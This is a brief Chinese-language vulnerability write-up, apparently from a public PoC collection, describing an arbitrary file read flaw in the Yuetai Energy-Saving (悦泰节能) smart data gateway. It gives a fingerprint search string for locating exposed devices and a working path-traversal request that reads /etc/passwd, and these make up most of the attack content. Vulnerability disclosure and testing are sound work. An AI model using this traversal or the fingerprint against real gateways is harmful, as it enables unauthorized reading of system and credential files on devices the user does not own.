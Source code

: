 # 

# 悦泰节能 智能数据网关 resources 任意文件读取漏洞

## 漏洞描述

悦泰节能 智能数据网关存在任意文件读取漏洞，通过构造特殊请求可以读取服务器任意文件

## 漏洞影响

```
悦泰节能 智能数据网关
```

## 网络测绘

```
body="/FWlib3/resources/css/xtheme-gray.cssz"
```

## 漏洞复现

登录页面

![](./images/202202162249593.png)

验证POC

```php
/FWlib3/resources//../../../../../../../../etc/passwd
```

![img](./images/202202162249623.png)
